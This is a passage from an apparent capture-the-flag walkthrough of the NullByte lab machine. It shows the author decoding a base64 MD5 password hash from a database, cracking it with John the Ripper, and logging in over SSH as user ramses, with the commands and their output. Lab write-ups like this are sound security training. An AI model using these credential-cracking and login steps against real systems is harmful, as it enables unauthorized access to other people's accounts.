 In the table **users** of the database **seth** we see two users but only ramses has password.

![](/assets/images/nullbyte/screenshot-10.png)

The password is encoded in base64, so I decoded it and saved it into a file, then I cracked it with john and got the password.

```console
root@kali:~$ echo -n "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d 2>/dev/null> mysql_hash.txt

root@kali:~$ john --format=raw-md5 mysql_hash.txt                                                        
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
omega            (?)
```

### Access via SSH

I tried to log in via SSH with the user **ramses** and the password **omega** and had access to the system.

```console
root@kali:~$ ssh -l ramses 192.168.179.152 -p 777
ramses@192.168.179.152's password:
ramses@NullByte:~$ id
uid=1002(ramses) gid=1002(ramses) groups=1002(ramses)
```
